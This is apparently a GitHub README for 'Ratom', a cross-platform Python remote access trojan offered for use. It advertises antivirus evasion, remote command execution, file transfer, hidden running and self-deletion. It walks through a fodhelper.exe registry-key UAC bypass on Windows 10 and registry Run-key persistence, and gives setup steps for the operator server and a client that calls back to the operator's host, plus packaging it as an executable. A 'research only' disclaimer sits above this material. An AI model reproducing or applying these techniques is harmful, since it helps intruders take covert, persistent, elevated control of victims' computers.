

# Ratom

A RAT which is like an atom. (In fact, it is not :)


**Disclaimer:**

- **For research purposes only.**
- **Accessing a computer system or network without authorization or explicit permission is illegal.**

&nbsp;

## Environment

Python 2.7

&nbsp;

## Features

### Cross platform

- Cross platform (Windows, Linux, and macOS)
- Bypass mainstream anti-virus (Bypass all detect engines on [Virus Total](https://www.virustotal.com/))
- Executing commands on target
- Upload & download files to and from target
- wget & unzip
- Self-destruction on target
- Obtain information of target's system & top 25 ports of target's host


### Windows specific

- Bypass Windows User Account Control (UAC) (Windows 10)
- Persistence (Start-up)
- Running in secret (I do not know how to hide the console window on Linux and Mac)

&nbsp;

## Details

### Bypass UAC

This function exploits a vulnerabilty found during the execution of a trusted binary called `fodhelper.exe`. 

- `fodhelper.exe` will look for registry key `HKCU:\Software\Classes\ms-settings\shell\open\command\(default)` first, by default this key does not exist in Windows 10. 
- Then it will look for `HKCU:\Software\Classes\ms-settings\Shell\Open\command\DelegateExecute`. 
- If it finds that key, `HKCU:\Software\Classes\ms-settings\shell\open\command` will get executed.

Since the `fodhelper.exe` binary has "auto-elevation" settings, the UAC prompt won't show during its execution. 

So we just need to:

- Creat `HKCU:\Software\Classes\ms-settings\Shell\Open\command\DelegateExecute`
- Change the value of `HKCU:\Software\Classes\ms-settings\shell\open\command\(default)` to `C:\Windows\System32\cmd.exe`

In this way, we can execute any command registered in the above keys without any consent.


### Start-up

Add `client.exe` to registry key `HKCU:Software\Microsoft\Windows\CurrentVersion\Run`.


### Self-destruction

Delete all registry keys creating by Ratom on target (if target's plaform is Windows) and delete executable file itself.

&nbsp;

## Usage

### server

Requirements:

```powershell
# Windows
pip install pycryptodome pyreadline
# Mac & Linux
pip install pycryptodome
```

Then:

```powershell
# specify port
python server.py --port 1335
# or use 1335 as default port 
python server.py
```




&nbsp;

### client

Requirements:

```powershell
# Windows
pip install pycryptodome pywin32
# Mac & Linux
pip install pycryptodome
```

Modify host and port of your server here:

```python
HOST = 'xxx.xx.x.xxx'
PORT = xxxx
```

Then:

```powershell
python client.py
```

&nbsp;

### Build

```powershell
pip install pyinstaller
pyinstaller --onefile client.py
```

Then a `dist/` folder with an executable file in it will be generated.